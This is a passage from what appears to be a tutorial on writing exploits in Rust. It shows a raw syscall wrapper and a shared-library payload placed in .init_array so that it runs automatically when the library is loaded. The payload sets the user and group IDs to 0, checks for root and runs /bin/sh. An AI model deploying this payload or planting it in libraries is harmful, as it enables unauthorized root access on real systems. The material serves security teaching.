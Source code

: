 ```rust
unsafe fn syscall0(scnum: u64) -> u64 {
    let ret: u64;
    asm!(
        "syscall",
        in("rax") scnum,
        out("rcx") _,
        out("r11") _,
        lateout("rax") ret,
        options(nostack),
    );
    ret
}
// ...
```

Not sure what does it mean? Don't worry, we will learn more about this exotic stuff in the next chapter when crafting shellcodes.


Then comes the little trick. In order to work, the exploit needs to execute a function when the library is loaded (with `dlopen`, for example).


For that, we are going to put a pointer to the function we want to execute in the `.init_array` section.

When the library is loaded by any program, the `rust_init` function will be called and the actual payload executed.

```rust
#[link_section = ".init_array"]
pub static INIT: unsafe extern "C" fn() = rust_init;

// out actual payload
#[no_mangle]
pub unsafe extern "C" fn rust_init() {
    let message = "[+] Hello from Rust payload\n";
    syscall3(
        SYS_WRITE,
        STDOUT,
        message.as_ptr() as u64,
        message.len() as u64,
    );

    syscall1(SYS_SETUID, 0);
    syscall1(SYS_SETGID, 0);

    if syscall0(SYS_GETUID) == 0 {
        let message = "[+] We are root!\n";
        syscall3(
            SYS_WRITE,
            STDOUT,
            message.as_ptr() as u64,
            message.len() as u64,
        );

        let command = "/bin/sh";
        syscall3(SYS_EXECVE, command.as_ptr() as u64, 0, 0);
    } else {
        let message = "[-] We are not root!\n[-] Exploit failed!\n";
        syscall3(
            SYS_WRITE,
            STDOUT,
            message.as_ptr() as u64,
            message.len() as u64,
        );
```